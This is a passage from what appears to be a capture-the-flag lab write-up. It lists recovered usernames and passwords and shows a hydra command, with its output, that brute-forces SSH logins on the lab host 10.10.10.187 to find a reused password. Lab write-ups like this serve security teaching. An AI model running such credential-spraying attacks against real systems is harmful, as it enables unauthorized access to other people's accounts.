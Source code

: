 With our lists of usernames and passwords, we use hydra to quickly enumerate which combinations will work.

Found usernames:

```
waldo
bernadette
howard
leonard
amy
rajesh
penny
```

And passwords:

```
Wh3r3_1s_w4ld0?
]F7jLHw:*G>UPrTo}~A"d6b
Ezy]m27}OREc$
&<h5b~yK3F#{PaPB&dA}{H>
```

Since SSH appears to be the only service available that we can use these credentials with, we'll try that first.

```
$ hydra -L users.txt -P passwords.txt ssh://10.10.10.187
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26 21:06:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:8/p:4), ~2 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-26 21:06:33
```

Looks like there is a username and password combination that works on SSH. Specifically, our newly uncovered database password was reused by user `waldo` for their SSH login.

Let's grab the user flag.

![](images/user-flag.PNG)
